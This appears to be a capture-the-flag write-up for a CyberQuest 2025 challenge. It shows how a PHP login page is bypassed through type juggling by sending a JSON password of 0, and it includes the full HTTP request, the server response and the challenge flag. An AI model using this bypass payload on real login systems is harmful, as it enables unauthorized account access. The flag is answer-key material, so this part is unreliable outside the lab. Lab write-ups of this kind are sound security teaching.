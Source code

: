 # CyberQuest 2025 - Untyped

## Description

Oh my.. I've lost my password to the administrator account. My boss will freak out if it turns out.

Hints:
* no need to brute-force
* don't try to guess the password

`cq25-challenge0[1-9]-b.cq.honeylab:48080`

## Metadata

- Filename: -
- Tags: `php`, `type juggling`

## Solution

We are presented with a login page.

![Login page](media/form.png)

The name of the challenge suggests some type confusion / type juggling vulnerability.

If we manipulate the `username` and `password` fields and try to send `0`, `1`, `true` and `false`, we can log in for example with the following payload:

```json
{"username":"admin","password":0}
```

```
POST /login.php HTTP/1.1
Host: 10.10.100.112:48080
Content-Length: 33
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.10.100.112:48080
Referer: http://10.10.100.112:48080/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"username":"admin","password":0}
```

```
HTTP/1.1 200 OK
Date: Sat, 27 Sep 2025 11:07:21 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.0
Content-Length: 76
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json

{"status":"success","message":"Login successful","flag":"CQ25{N0t_MY_TYP3}"}
```

Flag: `CQ25{N0t_MY_TYP3}`